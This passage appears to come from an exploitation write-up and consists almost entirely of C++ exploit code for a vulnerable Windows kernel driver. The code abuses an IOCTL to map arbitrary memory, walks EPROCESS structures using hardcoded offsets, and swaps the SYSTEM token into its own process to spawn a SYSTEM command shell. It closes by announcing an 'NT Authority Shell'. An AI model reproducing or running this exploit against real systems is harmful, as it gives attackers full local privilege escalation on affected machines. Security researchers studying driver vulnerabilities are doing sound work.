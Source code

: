 ```c++
 
QWORD mapArbMem(QWORD addr, HANDLE hDriver) {
    DWORD index = 0;
    DWORD bytesWritten = 0;
    LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
 
    QWORD* in = (QWORD*)((QWORD)uInBuf);
    *(in + index++) = 0x4141414142424242;
    *(in + index++) = 0x4343434300001000; // size
    *(in + index++) = addr;               // addr
 
    DeviceIoControl(hDriver, IOCTL_01, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);
    QWORD* out = (QWORD*)((QWORD)uOutBuf);
    QWORD mapped = *(out + 2);
    return mapped;
}
 
int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HW", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }    
 
    printf("[>] Exploiting driver..\n");
    QWORD systemProc = getSystemEProcess();
    QWORD systemProcMap = mapArbMem(systemProc, hDriver);
    QWORD systemToken = (QWORD)(*(QWORD*)(systemProcMap + 0x4b8));
    printf("[>] System Token: 0x%llx\n", systemToken);
 
    DWORD currentProcessPid = GetCurrentProcessId();
    BOOL found = false;
    QWORD cMapping = systemProcMap;
    DWORD cPid = 0;
    QWORD cTokenPtr = 0;
    while (!found) {
        QWORD readAt = (QWORD)(*(QWORD*)(cMapping + 0x448)); 
        cMapping = mapArbMem(readAt - 0x448, hDriver);
        cPid = (DWORD)(*(DWORD*)(cMapping + 0x440));
        cTokenPtr = (QWORD)(*(QWORD*)(cMapping + 0x4b8));
        if (cPid == currentProcessPid) {
            found = true;
            break;
        }
    }
    if (!found) {
        exit(-1);
    }
    printf("[>] Stealing Token..\n");
    *(QWORD*)(cMapping + 0x4b8) = systemToken;
    system("cmd");
    printf("[>] Restoring Token..\n");
    *(QWORD*)(cMapping + 0x4b8) = cTokenPtr;
```
Finally We have a NT Authority Shell

